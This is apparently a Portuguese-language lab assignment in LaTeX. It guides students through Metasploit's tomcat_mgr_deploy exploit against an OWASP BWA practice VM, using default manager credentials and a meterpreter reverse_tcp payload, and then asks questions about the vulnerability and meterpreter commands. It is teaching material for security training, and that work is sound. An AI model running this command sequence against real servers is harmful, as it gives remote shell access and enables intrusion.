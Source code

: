 \documentclass{article}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
    O \code{tomcat\_mgr\_deploy} pode usar diferentes payloads. O payload
    identifica o código que o módulo deve executar e que deve ser entregue ao
    alvo.

    \begin{verbatim}
        msf exploit(tomcat_mgr_deploy) > show payloads
    \end{verbatim}

    Digite os comandos:

    \begin{verbatim}
        msf > use exploit/multi/http/tomcat_mgr_deploy
        msf exploit(tomcat_mgr_deploy) > set RHOSTS x.x.x.x (IP da máquina Owasp)
        msf exploit(tomcat_mgr_deploy) > set HttpUsername root
        msf exploit(tomcat_mgr_deploy) > set HttpPassword owaspbwa
        msf exploit(tomcat_mgr_deploy) > set RPORT 8080
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > show payloads
        msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > set LHOST 10.1.2.7 -> colocar IP da Kali
        msf exploit(tomcat_mgr_deploy) > exploit
    \end{verbatim}

    Nesse prompt (meterpreter) podem ser executados comandos. Ao conseguir
    chegar no prompt do meterpreter você está com um tipo de shell na máquina
    alvo. Digite help no prompt do meterpreter para listar os comandos
    possíveis que poderão ser executados.

    \begin{superframe}
        \begin{enumerate}
            \setcounter{enumi}{14}
            \item Copie e cole a screenshot da sua tela de estabelecimento de
                sessão (inclua na imagem a parte dos IPs, data e hora dos
                experimentos). Agora, explique os experimentos respondendo
                perguntas:

            \begin{enumerate}
                \item Qual a vulnerabilidade que está sendo explorada?
                \item O que faz o exploit para explorar a vulnerabilidade?
                \item O que é o meterpreter?
                \item O que é possível fazer depois que o exploit é executado?
                    Use pelo menos dois comandos do meterpeter listados com o
                    comando help e explique cada um deles, colocando a imagem
                    da execução dos seus comandos. Alguns comandos para
                    máquinas Windows não funcionarão na máquina Linux.
            \end{enumerate}
        \end{enumerate}
    \end{superframe}

    Sequência de meterpreters:

    --- ps
    ---
\end{document}
